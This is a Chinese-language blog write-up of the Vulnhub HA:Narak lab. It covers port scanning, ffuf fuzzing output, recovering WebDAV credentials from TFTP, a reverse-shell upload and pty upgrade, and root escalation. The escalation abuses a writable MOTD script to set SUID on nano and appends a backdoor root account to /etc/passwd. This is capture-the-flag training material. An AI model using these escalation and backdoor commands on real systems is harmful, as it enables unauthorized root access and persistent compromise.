 ```yaml
---
layout: post
title: "Vulnhub HA:Narak Writeup"
tags: [Vulnhub, Pentest]
comments: true
---
```


## 前言

* Pentester

> Author: xxxeyJ   
> Blog: https://tricksongs.com/

* 靶机信息 (Target Information)

> Lab Name: HA:Narak   
> Date Release: 23 Sep 2020   
> Author: Hacking Articles   
> Series: HA   

* 文件信息 (File Information)

> Filename: narak.ova   
> File Size: 791 MB   
* Checksum   
> MD5: C058F595C60923998659C630CEA576E6   
> SHA1: 1340392A00BE6098CD0AEAFA26D2550FC4F2A459

* Download Link: https://www.vulnhub.com/entry/ha-narak,569/

## RECON

> Target IP Address: 192.168.0.103

首先使用 Nmap 扫一下端口;

![](https://tricksongs.com/images/HA_Narak/Ports.PNG)

看一下 80 端口，艺术气氛 MAX;

![](https://tricksongs.com/images/HA_Narak/Index.PNG)

> CTRL + U 看一下前端源码，发现引用了 images 目录下的图片文件，随手改一下路径，发现有个目录遍历的问题;

![](https://tricksongs.com/images/HA_Narak/SourceCode.PNG)

![](https://tricksongs.com/images/HA_Narak/ImagesIndex.PNG)

## ENUMERATION

跑一下字典看看有没有什么东西;

```Shell
xxxeyJ@localhost:~/Tools/ffuf$ ./ffuf -c -u http://192.168.0.103/FUZZ -w dict.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.0.103/FUZZ
 :: Wordlist         : FUZZ: dict.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

                        [Status: 200, Size: 2992, Words: 356, Lines: 68]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess~              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.bak1          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessbak            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessBAK            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-dev           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_extra         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.BAK           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-marco         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessOLD2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess-local         [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.orig          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccessold2           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.save          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.txt           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess_sc            [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.sample        [Status: 403, Size: 278, Words: 20, Lines: 10]
.htgroup                [Status: 403, Size: 278, Words: 20, Lines: 10]
.html                   [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.bak           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd/              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd.inc           [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswds              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswrd              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd_test          [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd-old           [Status: 403, Size: 278, Words: 20, Lines: 10]
.ht_wsr.txt             [Status: 403, Size: 278, Words: 20, Lines: 10]
.htusers                [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/                  [Status: 403, Size: 278, Words: 20, Lines: 10]
icons/small/            [Status: 403, Size: 278, Words: 20, Lines: 10]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
images/                 [Status: 200, Size: 4566, Words: 239, Lines: 36]
index.html              [Status: 200, Size: 2992, Words: 356, Lines: 68]
index.phps              [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess.old           [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status/          [Status: 403, Size: 278, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
style.css               [Status: 200, Size: 23358, Words: 211, Lines: 232]
tips.txt                [Status: 200, Size: 58, Words: 12, Lines: 2]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/index.html       [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/servlet/webdav/  [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/                 [Status: 401, Size: 460, Words: 42, Lines: 15]
webdav/site/codul/users/cborgea3 [Status: 401, Size: 460, Words: 42, Lines: 15]
:: Progress: [76198/76198] :: Job [1/1] :: 12699 req/sec :: Duration: [0:00:06] :: Errors: 1 ::
```

icons 目录返回的状态码是 403，说明只有 images 目录配置不当，webdav 及其他几个子目录返回的状态码都是 401，访问一下发现 webdav 目录启用了基础认证(Basic Auth)，跑了一会字典无果;

![](https://tricksongs.com/images/HA_Narak/webdav_401.PNG)

查看一下 tips.txt 文件内容，提示可以在 creds.txt 中找到线索，把文件拼接在了 URL 后面，发现并不存在此文件;

![](https://tricksongs.com/images/HA_Narak/tips.PNG)

![](https://tricksongs.com/images/HA_Narak/NF.PNG)

80 端口到了这线索差不多就断了，然后看一下之前扫到的其他端口;

先看一下 tftp 服务，发现可以连接并获取到相关文件，很明显是 base64 编码后的内容，解码一下 get 到 WEBDAV 凭据;

![](https://tricksongs.com/images/HA_Narak/tftp.PNG)

> Username: yamdoot
> Password: Swarg

## EXPLOITATION

使用 **cadaver** 上传一个 Shell，访问一下即可将 Shell Session 反弹至指定的 IP:PORT;

![](https://tricksongs.com/images/HA_Narak/cadaver.PNG)

使用 Python 将哑 Shell 提升到可交互 Shell;

```Python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://tricksongs.com/images/HA_Narak/REVERSE.PNG)

翻找系统中各类文件，发现 **/mnt/hell.sh** 的内容比较奇怪;

```Shell
#!/bin/bash
echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
```

> **Brainfuck** 解码后结果为: **chitragupt**，感觉是凭据，但不是一组，所以应该是某种密码;

![](https://tricksongs.com/images/HA_Narak/brainfuck.PNG)

尝试使用此密码登录 root 账户失败了;

![](https://tricksongs.com/images/HA_Narak/ROOT.PNG)

查看一下 passwd 用户表，发现除了常见的 Ubuntu 自有用户还多了几个以前没有见过的用户;

![](https://tricksongs.com/images/HA_Narak/inferno.PNG)

> 成功登入 inferno 账户，发现权限比 www-data 还小，好在 Get 到了 flag.txt;

![](https://tricksongs.com/images/HA_Narak/flag.PNG)

## PRIVILEGE ESCALATION

> 利用 **MOTD** 将权限提升为 root 用户;

```Shell
ssh inferno@192.168.0.103
which nano
ls -la /bin/nano
echo "sudo chmod u+s /bin/nano" >> /etc/update-motd.d/00-header
exit
```

使用 OpenSSL 生成 passwd 表中的 hash;

![](https://tricksongs.com/images/HA_Narak/openssl.PNG)

```Shell
ssh inferno@192.168.0.103
nano /etc/passwd
```

> 将 "hacking:$1$1337$EIeG0N38xUkEIB4U8P6fv/:0:0:root:/root:/bin/bash" 追加到 passwd 文件末尾;

```Shell
su hacking
cd ~
tail /etc/passwd
cat root.txt
```

![](https://tricksongs.com/images/HA_Narak/ROOTFLAG.PNG)

**Successfully got the flag!**

### **:)**
